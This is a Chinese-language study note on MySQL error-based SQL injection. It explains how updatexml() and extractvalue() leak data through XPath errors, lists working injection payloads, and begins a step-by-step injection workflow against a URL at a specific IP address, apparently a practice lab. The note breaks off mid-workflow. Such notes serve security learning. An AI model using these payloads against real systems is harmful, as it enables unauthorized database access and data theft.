   ```
4. 内网渗透

## 报错注入

* `mysql(i)_error()`  输出mysql数据库的错误信息
* `extractvalue()` 函数主要用于**从XML文档中提取数据。**
* payload: 攻击载荷 ==> 漏洞利用的代码

* `0x7e` 是十六进制表示的波浪线（`~`）字符。
* `(select user())` 是一个SQL查询，返回当前数据库的用户名。

### xpath报错

0x7e就是\~  不属于xpath语法格式，因此报出xpath语法错误。★

##### **updatexml()**

* 作用：改变文档中符合条件的节点的值，使用不同的xml标记匹配和替换xml块的函数。
* 语法： updatexml（XML\_document，XPath\_string，new\_value） 第一个参数：是string格式，为XML文档对象的名称，文中为Doc 第二个参数：代表路径，Xpath格式的字符串例如//title【@lang】 第三个参数：string格式，替换查找到的符合条件的数据
* 原理：updatexml使用时，当xpath\_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）
* 例如： select \* from test where ide \= 1 and (updatexml(1,0x7e,3));   由于<span data-type="text" style="color: var(--b3-font-color9);">0x7e是~</span>，<span data-type="text" style="color: var(--b3-font-color8);">不属于xpath语法格式，因此报出xpath语法错误</span>。

##### **extractvalue（）**

* 作用：此函数从目标XML中返回包含所查询值的字符串
* 语法：extractvalue（XML\_document，xpath\_string） 第一个参数：string格式，为XML文档对象的名称 第二个参数：xpath\_string（xpath格式的字符串） select \* from test where id\=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

* 原理：extractvalue使用时当xpath\_string<span data-type="text" style="color: var(--b3-font-color9);">格式出现错误</span>，<span data-type="text" style="color: var(--b3-font-color10);">mysql则会爆出xpath语法错误</span>（xpath syntax）
* 例如：select user,password from users where user\_id\=1 and (extractvalue(1,0x7e));   由于0x7e就是\~不属于xpath语法格式，因此报出xpath语法错误。

##### 使用条件

        mysql>5.1
	xpath 报错内容有32位长度限制

##### payload

	payload:   <span data-type="text" style="color: var(--b3-font-color8);">and extractvalue(1,concat(0x7e,(select user()),0x7e))  </span>        ((20240819160743-0w86e8t "concat()  拼接字符串：select concat(&apos;a&apos;,&apos;b&apos;,&apos;c&apos;); ==&gt; &apos;abc&apos;"))
	payload:   <span data-type="text" style="color: var(--b3-font-color8);"> and updatexml(1,concat(0x7e,(select user()),0x7e),1)</span>

#### 注入流程

1. 判断是否存在注入

    http://1.14.28.17:13815/string.php?id=1' and 1=1%23

    ![image](assets/image-20240820184105-380n481.png)

    http://1.14.28.17:13815/string.php?id=1' and 1=2%23

    ![image](assets/image-20240820184554-bw2ml8j.png)
2. 判断注入点类型

  ```